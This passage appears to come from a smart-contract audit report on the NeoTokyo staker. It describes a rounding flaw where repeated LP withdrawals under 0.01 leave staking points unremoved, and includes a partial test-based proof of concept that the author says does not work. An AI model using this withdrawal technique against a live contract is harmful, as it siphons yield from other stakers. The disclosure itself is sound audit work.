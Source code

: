 The user then would proceed to withdrawal his LPs in N transactions but with values lower then 0.01 LP. Example: 0.009 and 0.001 LP.

```
uint256 points = 9 * 1e15 * 100 / 1e18 * 100 / 100
               = 9 * 1e17 / 1e18 * 100 / 100
               = 9 / 10 * 100 / 100
               = 0 * 100 / 100
               = 0
```
no points will be removed. User now has 1 permanent basis point that will generate yield as time passes.


## Proof of Concept

The following should have been a valid POC. Unfortunately, the assertation fails as calling `withdraw` has no side effect regardless of amount sent. There seems to be a fault in the project testing scripts which was failed be to identified in time due to audit time constraints.

POC can be added to `NeoTokyoStaker.test.js`, before test on line 561

https://github.com/code-423n4/2023-03-neotokyo/blob/main/test/NeoTokyoStaker.test.js#L561

```Solidity
    it('rounding error in withdrawLP ', async function () {
        
        const bobInitialLpBalance = await LPToken.balanceOf(bob.address);
        const initialStakeLPPosition = await NTStaking.stakerLPPosition(bob.address);

        // confirm that bob has no other LP staked for points
        initialStakeLPPosition.points.should.be.equal(0);

        // Get the time at which Bob staked.
        const priorBlockNumber = await ethers.provider.getBlockNumber();
        const priorBlock = await ethers.provider.getBlock(priorBlockNumber);
        const bobStakeTime = priorBlock.timestamp;
        
        // Stake minimum amount
        await NTStaking.connect(bob.signer).stake(
            ASSETS.LP.id,
            TIMELOCK_OPTION_IDS['30'],
            ethers.utils.parseEther('0.01'),
            0,
            0
        );

        // Jump to 30 days after Bob's stake.
        await ethers.provider.send('evm_setNextBlockTimestamp', [
            bobStakeTime + (60 * 60 * 24 * 30)
        ]);

        // // unstake amount below tolerance line 
        await NTStaking.connect(bob.signer).withdraw(
            ASSETS.LP.id,
            ethers.utils.parseEther('0.005')
        );

        // unstake amount below tolerance line
        await NTStaking.connect(bob.signer).withdraw(
            ASSETS.LP.id,
            ethers.utils.parseEther('0.005')
        );
        
        // get current state
        const currentStakeLPPosition =  await NTStaking.stakerLPPosition(bob.address);
```